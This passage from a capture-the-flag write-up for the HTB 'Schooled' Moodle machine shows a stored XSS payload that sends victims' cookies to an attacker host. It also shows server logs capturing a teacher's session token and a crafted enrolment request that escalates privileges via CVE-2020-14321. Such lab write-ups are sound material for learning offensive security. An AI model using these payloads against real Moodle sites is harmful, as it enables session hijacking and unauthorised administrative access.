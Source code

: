* Logged as the recently created user and modified the MoodleNet profile with the following content

```html
<script>var i=new Image;i.src="http://10.10.10.10/xss.php?"+document.cookie;</script>
```

* Hosted the `xss.php` in a folder and started a local PHP webserver, which 2 minutes later displayed us the teacher's cookie on the page

```bash
$ sudo php -S 0.0.0.0:80 -t .
[Mon Aug  9 14:44:05 2021] PHP 7.4.21 Development Server (http://0.0.0.0:80) started
[Mon Aug  9 14:45:28 2021] 10.10.10.234:55102 Accepted
[Mon Aug  9 14:45:28 2021] PHP Notice:  Undefined index: METHOD in /opt/dcruz/htb/schooled-10.10.10.234/exploit/www/xss.php on line 28
[Mon Aug  9 14:45:28 2021] PHP Notice:  Undefined index: REMOTE_HOST in /opt/dcruz/htb/schooled-10.10.10.234/exploit/www/xss.php on line 29
[Mon Aug  9 14:45:28 2021] 10.10.10.234:55102 [200]: GET /xss.php?MoodleSession=d8so1t4rs4vmg8btrgfr2ps6fr
[Mon Aug  9 14:45:28 2021] 10.10.10.234:55102 Closing

```

Now aware of this Session parameter, changed it in browser and we can now see in the upper right corner that I'm connected as Manuel Philips

![HTB Schooled - Moodle as Manuel Philips](https://i.imgur.com/n3plh19.png){: .align-center}

Now that I have a more privileged access as a teacher, we need to check if current permissions (Teacher) are enough to get an RCE.

Searching about Moodle Exploitation on [Moodle - HackTricks](https://book.hacktricks.xyz/pentesting/pentesting-web/moodle#rce) page, found out that I need to be a manager to upload a plugin, which can host malicious code to our purpose. Besides not having the appropriate permission noticed that version **is also vulnerable to a** [**Privilege Escalation Vulnerability**](https://moodle.org/mod/forum/discuss.php?d=407393), which could allow me to get manager permission in the course abusing the enrollment process and, if a student is the Site Manager, I could impersonate him and upload the malicious plugin, obtaining RCE. The same author of the other CVE has also [a repository in Github](https://github.com/HoangKien1020/CVE-2020-14321) containing a PoC that could help us to escalate those privileges and get RCE.

Besides not working well in our scenario, understanding the steps required used in the exploit, the following steps were executed to be able to get RCE:

* The first thing would identify who in the platform could have manager permissions. Based on the institutional page, **Lianne Carter** is the school's manager and possibly has the rights we need.
* Also took note of **Manuel Philips**' Profile id, which was obtained from his profile page at `http://moodle.schooled.htb/moodle/user/profile.php?id=24`.
* Things started by enrolling the school's manager in the class and, intercepting the request and sending a copy of it to Burp's Repeater, also crafted a request granting us Manager Administration in the course, by assigning us the `roleid=1` in the request, as well as changing the assignee id to Manuel Philips, the same way as seen in the PoC video.

```http
GET /moodle/enrol/manual/ajax.php?mform_showmore_main=0&id=5&action=enrol&enrolid=10&sesskey=KbJYqTapFc&_qf__enrol_manual_enrol_users_form=1&mform_showmore_id_main=0&userlist%5B%5D=24&roletoassign=1&startdate=4&duration= HTTP/1.1
Host: moodle.schooled.htb
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.150 Safari/537.36
Content-Type: application/json
Referer: http://moodle.schooled.htb/moodle/user/index.php?id=5
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: MoodleSession=jil2s8i0vj0gq3vojfki6e7rtq
Connection: close
```